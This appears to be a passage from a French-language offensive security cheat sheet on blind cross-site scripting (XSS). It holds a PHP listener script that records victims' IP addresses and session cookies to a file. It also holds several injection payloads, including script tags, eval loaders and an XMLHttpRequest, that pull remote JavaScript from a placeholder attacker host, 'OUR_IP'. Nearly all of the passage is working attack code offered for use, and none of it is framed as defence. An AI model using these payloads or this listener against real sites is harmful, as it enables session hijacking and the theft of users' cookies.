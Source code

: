 ```bash
sudo php -S 0.0.0.0:8000
```

## Cookie Stealer 2 #BlindXSS

### *Créer un cookiestealer et lancer listener php*

```bash
mkdir /tmp/tmpserver;
cd /tmp/tmpserver;
touch index.php;
echo "
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
" > index.php;
sudo php -S 0.0.0.0:80
```

### *Charger un script à distance*

Changer le nom du script avec le nom du champs à tester

```html
<script src="http://OUR_IP/script.js"></script>
```

```html
'><script src="http://OUR_IP/script.js"></script>
```

```html
"><script src="http://OUR_IP/script.js"></script>
```

```html
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP/script.js\';document.body.appendChild(a)')
```

```html
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP/script.js");a.send();</script>
```

```html
<script>$.getScript("http://OUR_IP/script.js")</script>
```

